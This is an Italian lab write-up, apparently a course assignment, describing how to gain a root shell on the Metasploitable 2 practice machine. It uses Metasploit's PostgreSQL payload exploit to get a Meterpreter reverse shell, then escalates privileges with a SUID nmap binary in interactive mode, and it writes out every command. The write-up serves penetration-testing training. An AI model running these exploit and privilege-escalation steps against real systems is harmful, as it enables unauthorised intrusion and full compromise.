 # Consegna S7/L3: Ottenere una Shell Root con Exploit PostgreSQL

## 📝 **Descrizione del progetto**
In questa esercitazione abbiamo utilizzato l'exploit **PostgreSQL Payload** di Metasploit per ottenere una shell con privilegi limitati su un sistema vulnerabile (**Metasploitable 2**). Successivamente, abbiamo sfruttato il binario `nmap` con **bit SUID** attivo per eseguire manualmente un'escalation di privilegi ed ottenere **root** sul sistema.

L'obiettivo è stato raggiunto attraverso un approccio sistematico e ben documentato che include:
- Configurazione dell'exploit PostgreSQL per ottenere una sessione iniziale Meterpreter.
- Verifica della presenza di binari vulnerabili con il bit SUID attivo.
- Escalation manuale a root sfruttando `nmap` in modalità interattiva.

---

## 📋 **Passaggi seguiti**

### **1. Configurazione iniziale**
#### Verifica della connessione con Metasploitable
- Identificazione dell'IP della macchina target (**Metasploitable**):
  ```bash
  nmap -sn 192.168.50.0/24
  ```
- IP identificati:
  - **Kali Linux (attaccante):** 192.168.50.2
  - **Metasploitable (target):** 192.168.50.3

### **2. Configurazione dell'exploit PostgreSQL**
Per ottenere una sessione Meterpreter:
```bash
msfconsole
use exploit/linux/postgres/postgres_payload
set RHOSTS 192.168.50.3
set LHOST 192.168.50.2
exploit
```

![Porcamadonna](./MeterpreterOK.png)

- **Risultato:** Abbiamo ottenuto una sessione Meterpreter come utente **postgres**.

### **3. Verifica dei privilegi e binari vulnerabili**
Dalla sessione Meterpreter, abbiamo verificato l'utente corrente e cercato binari con **bit SUID** attivo:
```bash
getuid
shell
find / -perm -4000 -type f 2>/dev/null | grep nmap
```
- **Risultato:** Trovato `nmap` con bit SUID attivo su `/usr/bin/nmap`.

### **4. Escalation di privilegi a root**
Abbiamo sfruttato manualmente `nmap` per ottenere una shell root:
1. Accedere alla modalità interattiva di nmap:
   ```bash
   /usr/bin/nmap --interactive
   ```
2. Eseguire una shell come root:
   ```bash
   !sh
   ```
3. Verifica dei privilegi:
   ```bash
   whoami
   ```
- **Risultato:** Utente elevato a **root**.

---

## 🎯 **Risultati ottenuti**
- **Accesso iniziale:** Sessione Meterpreter come utente `postgres`.
- **Escalation di privilegi:** Eseguita con successo sfruttando `nmap` con bit SUID.
- **Privilegi finali:** Shell root sul sistema target.

---

## 🛠️ **Strumenti utilizzati**
- **Metasploit Framework:** Per lanciare l'exploit PostgreSQL e ottenere l'accesso iniziale.
- **Nmap (SUID):** Sfruttato manualmente per ottenere root.
- **Linux Shell:** Per l'esecuzione di comandi manuali post-escalation.

---

## 📌 **Considerazioni finali**
Questa esercitazione ha dimostrato l'importanza di combinare strumenti automatizzati (come Metasploit) con tecniche manuali per sfruttare vulnerabilità note. L'escalation di privilegi tramite `nmap` evidenzia come l'errata configurazione dei permessi possa essere sfruttata per ottenere il controllo completo di un sistema target.

**Nota:** La persistenza non è stata implementata in questa fase e sarà configurata successivamente utilizzando msfvenom.

